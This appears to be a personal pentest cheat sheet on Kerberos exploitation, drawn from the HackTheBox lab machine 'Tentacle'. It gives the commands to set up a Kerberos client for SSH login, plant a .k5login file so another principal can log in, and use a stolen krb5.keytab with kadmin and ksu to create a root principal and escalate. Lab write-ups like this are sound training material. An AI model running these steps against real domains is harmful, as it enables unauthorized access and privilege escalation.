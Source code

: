```yaml
---
description: >-
  Kerberos Exploitation
title: Kerberos Exploitation              # Add title here
date: 2023-01-23 08:00:00 -0600                           # Change the date to match completion date
categories: [06 Exploitation, Kerberos Exploitation]                     # Change Templates to Writeup
tags: [exploitation, kerberos, gssapi, k5login, krb5.conf, krb5.keytab]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### Authentication method gssapi-with-mic (krb5.conf file)
If we receive the following message while trying to authenticate with any service:
```bash
debug1: SSH2_MSG_EXT_INFO received
debug1: kex_input_ext_info: server-sig-algs=<ssh-ed25519,ssh-rsa,rsa-sha2-256,rsa-sha2-512,ssh-dss,ecdsa-sha2-nistp256,ecdsa-sha2-nistp384,ecdsa-sha2-nistp521>
debug1: SSH2_MSG_SERVICE_ACCEPT received
debug1: Authentications that can continue: gssapi-keyex,gssapi-with-mic,password
debug1: Next authentication method: gssapi-with-mic
```
This means that kerberos is running for the authentication of such services, to abuse of such configuration we need to install krb5-conf, it will create an environment on our machine that will allow kali to run as a kerberos client:
```bash
apt-get install krb5-user
```
Once that we receive a prompt asking for a domain we enter the realcorp.htb domain:
![[Pasted image 20230123134328.png]]
Then add the machine's IP twice:
![[Pasted image 20230123134422.png]]
The installation creates a fille called /etc/krb5.conf which we'll modify as follows:
```bash
[libdefaults]
 default_realm = REALCORP.HTB
[realms]
 REALCORP.HTB = {
 kdc = srv01.realcorp.htb:88
 }
[domain_realm]
 .realcorp.htb = REALCORP.HTB
 realcorp.htb = REALCORP.HTB
```
Then in order to connect to the SSH port we can use the following command which will ask for the password:
```bash
kinit j.nakazawa
Password for j.nakazawa@REALCORP.HTB:
```
After submit the password we'll find that there is a register with this same password created:
```bash
klist             
Ticket cache: FILE:/tmp/krb5cc_0
Default principal: j.nakazawa@REALCORP.HTB

Valid starting       Expires              Service principal
01/23/2023 15:10:38  01/24/2023 15:10:38  krbtgt/REALCORP.HTB@REALCORP.HTB
```
This should allow us to login without password via ssh:
```bash
ssh j.nakazawa@10.10.10.224                                            
j.nakazawa@10.10.10.224's password:
```
If still not possible to login via SSH then we need to sync the DC time with our machine:
```bash
ntpdate 10.10.10.224
2023-01-23 15:13:01.504643 (-0500) +1.004272 +/- 0.038425 10.10.10.224 s10 no-leap
CLOCK: time stepped by 1.004272
```
Then we'll be able to login:
```bash
ssh j.nakazawa@10.10.10.224
Activate the web console with: systemctl enable --now cockpit.socket

Last failed login: Mon Jan 23 20:05:55 GMT 2023 from 10.10.14.2 on ssh:notty
There were 11 failed login attempts since the last successful login.
Last login: Thu Dec 24 06:02:06 2020 from 10.10.14.2
[j.nakazawa@srv01 ~]$ whoami
j.nakazawa
```
Examples:
[[Tentacle#^9ef584]]

### .k5login file
If we can create a .k5login file inside the /home of a user we can login with it always that we already have a Principal created with the krb-user tool, all we need to do is execute the following command:
```bash
echo 'j.nakazawa@REALCORP.HTB' > .k5login
```
Examples:
[[Tentacle#^217e6e]]

### Abusing krb5.keytab
If we get a krb5.keytab file we can abuse of it to list, create and login with principals:
```bash
klist -k /etc/krb5.keytab # list all the Principals
kadmin -kt /etc/krb5.keytab -p kadmin/admin@REALCORP.HTB # Interactive shell as Principal kadmin/admin this needs to be a Principal from klist
kadmin: addprinc root@REALCORP.HTB # Create a Principal (password required)
Enter password for principal "root@REALCORP.HTB": 
Re-enter password for principal "root@REALCORP.HTB": 
Principal "root@REALCORP.HTB" created. 
ksu
WARNING: Your password may be exposed if you enter it here and are logged in remotely using an unsecure (non-encrypted) channel. 
Kerberos password for root@REALCORP.HTB: : 
Authenticated root@REALCORP.HTB
```
Examples:
[[Tentacle#^9c1475]]